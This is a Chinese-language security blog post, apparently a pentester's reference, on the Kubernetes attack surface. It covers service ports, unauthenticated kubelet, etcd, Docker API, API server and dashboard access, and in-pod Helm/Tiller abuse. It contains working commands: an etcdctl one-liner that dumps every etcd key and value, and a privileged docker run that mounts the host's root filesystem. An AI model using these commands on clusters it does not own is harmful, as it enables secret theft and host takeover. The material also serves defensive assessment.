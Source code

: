 ```yaml
---
title: K8S攻击面梳理
author: 404tk
date: 2021-10-24
category: Kubernetes
layout: post
---
```


1. 如何识别K8S
-------------

通过一些常见的开放服务端口，可以判断是否跑了K8S服务，端口列表如下：

#### Control-plane Node(s)

|    Port    |      Purpose       |            Note            |
| :--------: | :----------------: | :------------------------: |
|  443/TCP   |  Kube API Server   |    Kubernetes API Port     |
|  6443/TCP  |  Kube API Server   |    Kubernetes API Port     |
|  8443/TCP  |  Kube API Server   |     Minikube API Port      |
|  8080/TCP  |  Kube API Server   |   Insecure K8s API Port    |
|  2379/TCP  | etcd Client Server |        etcd Storage        |
|  2380/TCP  | etcd Client Server |        etcd Storage        |
|  6666/TCP  | etcd Client Server |        etcd Storage        |
|  4194/TCP  |      cAdvisor      |     Container Matrics      |
| 10250/TCP  |    Kubelet API     |                            |
| 10251/TCP  |   Kube-scheduler   |                            |
| 10252/TCP  | controller-manager |                            |
|  9099/TCP  |    Calico-felix    | Health check Calico server |
| 6782-4/TCP |       Weave        |   Metrics and endpoints    |

#### Worker Node(s)

|      Port       |     Purpose      | Note |
| :-------------: | :--------------: | :--: |
|      10250      |   Kubelet API    |      |
| 30000-32767/TCP | NodePort Service |      |

2. 外部视角如何攻击K8S
-------------

#### Kubelet未授权
`10250/tcp - kubelet (kubelet exploit)` 
验证未授权，可以尝试访问以下路径：
```
/pods
/runningpods
/containerLogs
```

其次是默认10255端口，只读权限：
`10255/tcp - kubelet port (read-only)`
尝试通过以下路径获取信息：
```
/stats
/metrics
/pods
```

#### etcd未授权
`2379/tcp - etcd (see it on other ports though)`  
可通过以下路径判断未授权：
```
/version
/v2/keys
```
Etcd存放了大量敏感配置信息，从 [https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/) 下载得到`etcdctl`。
```
ETCDCTL_API=3 ./etcdctl --endpoints=http://IP:2379/ get / --prefix --keys-only | sort | uniq | xargs -I{} sh -c 'ETCDCTL_API=3 ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=http://IP:2379 get {} >> output.data && echo "" >> output.data'
```

#### Docker Remote API未授权
`2375/tcp docker`
通过访问`/info`路径查看响应中是否含有关键词:`"kind": "APIResourceList"`。
```
docker -H tcp://IP:2375 ps
docker -H tcp://IP:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

#### Docker Registry v2 API未授权
`8080/tcp Docker Registry (API: 2.0)`
可通过访问`/v2/_catalog`路径判断未授权。  

#### Kubernetes API Server未授权
`443/6443 - Kube API Server`  
通过访问`/api/v1`路径查看响应中是否含有`ContainersRunning`、`DockerRootDir`等关键词。
```
/api
/api/v1
/apis
/apis/
/apis/apps
/apis/apps/v1
/apis/autoscaling
/apis/autoscaling/v1
/apis/batch
/apis/batch/v1
...
```

#### cAdvisor未授权
`4194/tcp - cAdvisor`
尝试访问`/api/v2.0/spec?recursive=true`以JSON格式输出在主机上运行的所有容器的规范。

#### 攻击dashboard
`30000 - dashboard`
默认情况下, dashboard是需要进行鉴权操作的,当用户开启了`enable-skip-login`时可以在登录界面点击`Skip`跳过登录进入dashboard。

3. 如何利用正在运行的Pod
-------------

获取`shell`后，很容易确认这是个在`Kubernetes`上运行的容器：
```
ls -l /.dockerenv
env | grep -i kube
```

#### 攻击Helm
`44134/tcp - Helmtiller, weave, calico`  
`Helm`与`Kubernetes`集群通信的方式是通过`gRPC`到`Tiller-deploy pod`。
然后 pod 使用其服务帐户令牌与 Kubernetes API 对话。
当Helm从客户端运行命令时，在后台会打开一个端口转发到集群中以直接与`Tiller-deploy`服务对话，该服务始终指向`44134/TCP`上的`Tiller-deploy pod`。
```
export HVER=v2.11.0
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${HVER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C /tmp linux-amd64/helm
/tmp/helm --host tiller-deploy.kube-system.svc.cluster.local:44134 ls
```

4. K8S安全评估工具
-------------

+ [kube-hunter](https://github.com/aquasecurity/kube-hunter)
+ [kubeletctl](https://github.com/cyberark/kubeletctl)
+ [kubestriker](https://github.com/vchinnipilli/kubestriker)
+ [KubiScan](https://github.com/cyberark/KubiScan)
+ [kube-unauth-exec-hunter](https://github.com/cedowens/kube-unauth-exec-hunter)